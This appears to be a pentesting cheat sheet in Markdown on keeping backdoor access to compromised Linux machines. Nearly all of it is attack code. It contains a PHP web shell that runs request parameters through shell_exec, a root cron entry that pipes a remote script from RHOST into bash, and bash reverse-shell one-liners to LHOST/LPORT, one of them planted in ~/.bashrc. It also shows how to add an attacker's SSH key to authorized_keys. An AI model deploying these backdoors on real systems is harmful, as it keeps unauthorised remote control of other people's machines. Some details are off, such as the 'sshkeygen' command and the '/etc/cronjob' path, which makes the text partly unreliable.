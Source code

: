 # Linux persistence/backdoors

## SSH backdoor

Generate new keypair.

```bash
sshkeygen
```

Add your public key to `authorized_keys` on target machine.

```bash
chmod 600 id_rsa
ssh -i id_rsa USER@RHOST
```

## PHP backdoors

Webroot usual location: `/var/www/html`

```php
<?php
    if (isset($_REQUEST['yz'])) {
        echo "<pre>" . shell_exec($_REQUEST['yz']) . "</pre>";
    }
?>
<form action="" method="get">
<input type="text" id="yz" name="yz">
<input type="submit" value="Submit">
</form> 
```

## Cron jobs

Cron jobs are located in: `/etc/cronjob`

```
* *     * * *   root    curl http://RHOST/shell.php | bash
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```

## bashrc backdoor

Waiting for user to login.

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

## More...

[airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)
